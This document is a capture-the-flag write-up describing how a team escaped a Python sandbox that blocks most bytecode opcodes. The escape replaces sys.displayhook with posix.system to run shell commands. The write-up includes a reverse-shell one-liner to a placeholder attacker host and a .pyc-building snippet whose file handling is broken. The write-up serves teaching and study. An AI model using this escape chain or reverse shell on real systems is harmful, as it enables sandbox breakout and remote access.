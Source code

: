 # TI 1337 Plus CE

Writeup written by [Arusekk](https://github.com/Arusekk). Solved by [Arusekk](https://arusekk.github.io/), [haqpl](https://twitter.com/haqpl) and [Disconnect3d](https://twitter.com/disconnect3d_pl).

We included the task files in `./taskfiles/`.

In the task, you have to take control over a patched (sandboxed) CPython.
The patch checks the opcodes against a blacklist, and if any matches,
it goes `exit(1)`.
It also forbids using variables beginning with `_`.

The checks are perfored only if current environment is missing a secret
`COMPILE_SECRET` and the current frame's code object has `co_filename`
set to anything other than a predefined string (`FROZEN_SECRET`).

The blacklist is basically banning everything except for binary expressions
(`BINARY_*` allowed, but `BINARY_SUBSCR` is banned, `INPLACE_*` are allowed,
`LOAD_CONST` allowed),
but it misses several powerful opcodes:
```
IMPORT_NAME
IMPORT_FROM
IMPORT_STAR
```

We can test the code easily:
```py
$ ./python -Si
Python 3.9.1 (tags/v3.9.1-dirty:1e5d33e, Feb  7 2021, 21:41:31) 
[GCC 10.2.0] on linux
>>> import sys
>>> sys
<module 'sys' (built-in)>
>>> sys.__doc__  # exits, LOAD_ATTR banned
```

Great!
What if we could import os.environ to take a look around:
```py
>>> from os import environ
```
It fails, because `Lib/os.py` begins with
```py
LOAD_CONST 'OS routines for NT or Posix depending on '...
STORE_GLOBAL __doc__
```
But we can use `posix` and `sys`!
```py
>>> from posix import environ
>>> environ
environ({'PATH': '/bin:/usr/bin:...', ...})
>>> from sys import *
>>> path
['.', ...]
>>> version_info
sys.version_info(major=3, minor=9, micro=1, releaselevel='final', serial=0)
```
This is the time I made a typo and did:
```py
>>> from ssy import*
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "ErBT0kQUDyGuWIT42Bw", line 1007, in _find_and_load
  File "ErBT0kQUDyGuWIT42Bw", line 984, in _find_and_load_unlocked
ModuleNotFoundError: No module named 'ssy'
```
And this leaked the filename of frozen importlib.
So it may be used to bypass the check, but it is logged to stderr,
so it will need some tweaks.


So the most fascinating are functions and variables from `posix`,
since they are useful gadgets,
and stuff from `sys`, since it is Python's internals.

Okay, so we can explore several paths now:
our scripts are uploaded to fully controlled names
of form `/tmp/ti1337plusce/any_chosen_name/any_other_chosen_name`,
but once we create such a file, we can only append to it.
Our CWD is also set to `/tmp/ti1337plusce/any_chosen_name`.

So we can upload some file with one of extensions: `.py`, `.pyc`, `.cpython-39.so`, `.zip`;
and it will be possible to import it somehow.
`.cpython-39.so` will be opened with `dlopen()` (binary format),
`.pyc` is a cross-platform compiled CPython bytecode (binary format),
`.py` is a normal Python module,
and `.zip` would need appending it to `sys.path` and then we would normally be able to use modules from it.
There is also a restriction that the file contents are encoded back and forth
with UTF-8, so any of the binary formats would need to be valid UTF-8.
We thought that an UTF-8 .so would be too difficult, and it looked unintended.
I even made [a quick tool] for creating ascii ZIPs based on a tool for creating ascii GZIPs
while trying to exploit this, but it turned out that opening ZIPs is written in Python,
so it won't work (see `STORE_GLOBAL __doc__` above). The ZIP was supposed
to contain a single .pyc file, and I wanted to do something like this:
```py
>>> from sys import path
>>> path += ('pwned.pyc.zip',)
>>> import pwned
# pwned does some logic and goes weee here!
```

[a quick tool]: https://github.com/Arusekk/ascii-zip

We can use .pyc with any contents,
because if we set its `co_filename` to the one leaked above,
it will not be checked at all.
We still cannot import pure Python modules, though.

In the meantime, as you probably saw above,
we saw that `INPLACE_ADD` on lists calls to `.extend()`,
and `INPLACE_OR` on sets/dictionaries calls to `.update()`.

So if we knew the compile time secret, we could use
```py
>>> from posix import environ
>>> #environ |= {b'COMPILE_SECRET': b'blahblahblah'}  # BUILD_MAP bannd
>>> #environ |= [(b'COMPILE_SECRET', b'blahblahblah')]  # BUILD_LIST bannd
>>> environ |= ((b'COMPILE_SECRET', b'blahblahblah'),) # LOAD_CONST xD
```
and jail broken!
But the best part was that we can *actually* import special attributes
from modules, like
```py
>>> from sys import __class__ as mod
>>> mod
<class 'module'>
```
(no, frozen importlib had no `__file__`)
So we could use
```py
>>> from sys import __dict__ as sysd
>>> sysd |= (('whatever', 'value'),)
>>> from sys import whatever
>>> whatever
'value'
```
to update sys dict!
Let's take a look at useful sys attributes:
`last_type`, `last_value`, `last_traceback`, `excepthook`, `displayhook`, ...
we decided to override `displayhook`, because it gives a powerful primitive
of calling a function with a single arbitrary argument.
```py
>>> from sys import __dict__ as sysd
>>> from posix import close
>>> #sysd |= (('displayhook', close),)  # BUILD_TUPLE bannd
>>> # but look at this!
>>> from __main__ import __dict__ as myd  # this is our own namespace we have full control of!
>>> displayhook = close
>>> myd
{'displayhook': <built-in function close>, ...}
>>> sysd |= myd
>>> 2


# Hey the prompt disappeared!
```
So we can use `close(2)` and then `dup(1)` in order to redirect stderr to stdout!
We now know the first secret!

```py
>>> from sys import __dict__ as sysd
>>> from __main__ import __dict__ as myd
>>> from posix import close as displayhook
>>> sysd |= myd
>>> 2
from posix import dup as displayhook
sysd |= myd
1
>>> # prompt is back!
>>> import ssy
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "ErBT0kQUDyGuWIT42Bw", line 1007, in _find_and_load
  File "ErBT0kQUDyGuWIT42Bw", line 984, in _find_and_load_unlocked
ModuleNotFoundError: No module named 'ssy'
>>> # now it was logged to stdout, so we have the secret!
```

So I started to build a .pyc which would have `co_filename` set to that value
(the first version is really easy, code below, not much intimacy about .pyc files):
```py
import marshal
from importlib._bootstrap_external import MAGIC_NUMBER

with open('payload.py') as fp:
    t = fp.read()
code = compile(t, 'ErBT0kQUDyGuWIT42Bw', 'exec')
with open('payload.pyc') as fp2:
    fp2.write(MAGIC_NUMBER)
    fp2.truncate(16)
    fp2.seek(16)  # there are some timestamps and meta, but they are irrelevant to us
    marshal.dump(code, fp)
```
But that .pyc is not a valid UTF-8 if it uses any opcode >= 128, e.g. `CALL_FUNCTION*`,
which are essential.
So now I started to build a .zip with a .pyc inside, and realized that this is worthless,
and tried building a valid UTF-8 .pyc, because it was quite very possible.
And [I did it], but another team member realized that we have a perfect gadget already:
`posix.system()`!.

[I did it]: https://github.com/Arusekk/utfpyc

Let's trace the thought process again:
```py
>>> import sys
>>> from posix import system
>>> sys.displayhook = system             # no: STORE_ATTR bannd
>>> from sys import __dict__ as sysd     # let's get around
>>> sysd['displayhook'] = system         # no: STORE_SUBSCR bannd
>>> sysd.update({'displayhook': system}) # no: LOAD_ATTR and CALL_FUNCTION bannd
>>> sysd |= {'displayhook': system}      # yup if we have such a dict somewhere
>>> from __main__ import __dict__ as myd # but hey, we have access to a dict of our own namespace!
>>> displayhook = system                 # same as myd['displayhook'] = system
>>> sysd |= myd                          # yup if we have such a dict somewhere
>>>
>>> 'bash -c "bash -i >& /dev/tcp/evil.com.example/4444" 0>&1'  # do nasty stuff now
```

So the final solution is:
```py
>>> from sys import __dict__ as sysd
>>> from __main__ import __dict__ as myd
>>> from posix import system as displayhook
>>> sysd |= myd
>>> 'cat /flag*.txt'
dice{a_ja1lbr0k3n_calcul4t0r?!}
```
With no usage of filesystem at all!
